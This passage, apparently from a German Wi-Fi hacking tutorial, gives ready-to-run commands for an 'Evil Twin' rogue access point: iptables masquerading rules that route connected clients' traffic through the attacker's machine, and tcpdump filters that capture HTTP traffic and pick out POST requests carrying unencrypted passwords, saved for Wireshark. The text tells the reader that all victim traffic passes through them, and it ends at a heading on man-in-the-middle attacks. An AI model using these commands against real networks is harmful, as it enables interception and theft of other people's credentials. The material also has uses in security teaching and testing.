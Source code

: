 **Schritt 3: NAT/Masquerading (iptables):**
```bash
# Flush alte Regeln
iptables -F
iptables -t nat -F

# Masquerading (wlan0 → wlan1)
iptables -t nat -A POSTROUTING -o wlan1 -j MASQUERADE

# Forward erlauben
iptables -A FORWARD -i wlan0 -o wlan1 -j ACCEPT
iptables -A FORWARD -i wlan1 -o wlan0 -m state --state RELATED,ESTABLISHED -j ACCEPT

# Speichern
iptables-save > /tmp/iptables.rules
```

**Jetzt:**
- Clients verbinden sich mit Evil Twin (wlan0)
- Bekommen Internet über wlan1
- **Gesamter Traffic geht durch dich!**

### Traffic Sniffing im Evil Twin

**Alle HTTP-Requests sehen:**
```bash
tcpdump -i wlan0 -A 'tcp port 80'

# Zeigt:
# GET /index.html HTTP/1.1
# Host: example.com
# ...
```

**Credentials in POST-Requests:**
```bash
tcpdump -i wlan0 -A -s 0 'tcp port 80 and (tcp[((tcp[12:1] & 0xf0) >> 2):4] = 0x504f5354)'

# Filtert POST-Requests
# Zeigt Body mit Passwörtern (falls unverschlüsselt!)
```

**Mit Wireshark analysieren:**
```bash
# Capture speichern
tcpdump -i wlan0 -w /tmp/evil_twin_traffic.pcap

# Auf PC analysieren
# Follow TCP Stream für komplette Sessions
```

---

## 4. Man-in-the-Middle (MITM) Attacks

